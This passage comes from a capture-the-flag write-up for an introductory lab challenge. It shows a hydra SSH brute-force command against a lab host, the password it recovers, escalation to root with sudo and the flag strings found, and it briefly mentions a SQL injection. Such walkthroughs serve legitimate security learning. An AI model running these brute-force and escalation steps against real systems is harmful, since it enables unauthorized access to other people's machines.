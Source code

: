 Then I ran the following command to try and brute force the password using hydra.

```bash
hydra -l RickSanchez -P rick_passwords.txt ssh://10.1.3.3:22222 -t 8 -v
```

This gives me a successful message of:

```bash
[22222][ssh] host: 10.1.3.3   login: RickSanchez   password: P7Curtains
```

And now we have the password, which also happens to be a flag:

```js
----------- FLAG -----------
 P7Curtains
----------------------------
```

## Root Time

We can now access the root user with this newfound sudo access. We can log in as Rick using `RickSanchez:P7Curtains` and change to the root user using `$ sudo -s`. 

This gives us root access, and we can go to the root user's home folder to access a flag with `cd ~/`. 

```js
----------- FLAG -----------
 Ionic Defibrillator
----------------------------
```

And that concludes the challenge. 9 flags found for a simple, introductory challenge.

<img src="/posts-content/n00bstable-EverSec2025/n00bs-Table-done.png" alt="Safe Password" style="max-width:50%;height:auto;display:block;margin:auto;" />

<br>

###### Side note: My team found another, 10th flag through SQL injection into the USERS table, but I didn't get enough  time to verify the methods for this writeup.